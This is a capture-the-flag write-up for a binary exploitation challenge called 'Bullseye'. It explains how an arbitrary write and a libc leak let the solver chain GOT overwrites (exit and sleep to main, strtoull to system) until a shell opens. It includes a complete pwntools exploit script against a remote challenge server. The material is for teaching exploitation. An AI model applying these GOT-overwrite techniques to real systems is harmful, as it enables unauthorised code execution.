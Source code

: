 # Bullseye

It takes an address and number in hex, then writes the number to the address. The hex is parsed by strtoull which will be useful later.

After writing, it calls `sleep(0xf)`, then prints the address of alarm and calls exit. The address of alarm gives us a libc leak. Partial RELRO, so GOT overwrite is possible. Here's what we do:

1. Overwrite exit@got with main. When it attempts to exit after printing a libc pointer to us, it'll call main, giving us another write
2. Overwrite sleep@got with main(we couldn't do this before as alarm is called after sleep but we dont need anymore leaks) so that the alarm doesnt catch us out and our exploit is quick from then on
3. Overwrite strtoull@got with system so next time it tries to turn our input to hex it calls system on it
4. Enter /bin/sh as the next address

Shell will be popped, we can cat flag.txt.

```python
from pwn import *
import time
e = ELF("./bullseye")
libc = e.libc if args.LOCAL else ELF("/home/kali/Tools/libc-database/libs/libc6_2.30-0ubuntu2.2_amd64/libc.so.6")
p = e.process() if args.LOCAL else remote('jh2i.com', 50031)
p.recvlines(2)
def write(addr,value,sleep=False):
    output = None
    p.recvline()
    p.sendline(hex(addr))
    p.recvline()
    p.sendline(hex(value))
    if sleep:
        log.info(f"Sleeping...")
        time.sleep(0xf)
        log.info(F"Finished with sleep")
        output = int(p.recvline(),16)
    p.recvlines(2)
    return output
# Set exit to main to get another leak and call main again for more writes(one write? says WHO)
leak = write(e.got['exit'],e.symbols['main'],sleep=True)
log.info(f"Libc leak: {hex(leak)}")
libc.address = leak - libc.symbols['alarm']
log.info(f"Libc base: {hex(libc.address)}")
# Set sleep to main because we dont need more leaks and its annoying
write(e.got['sleep'],e.symbols['main'])
# Let's start the main exploit process
# Overwrite strtoull with system so whenever it tries to parse input, it'll call system
write(e.got['strtoull'],libc.symbols['system'])
# Now we enter /bin/sh into prompt
p.recvline()
p.sendline("/bin/sh")
p.interactive()
```
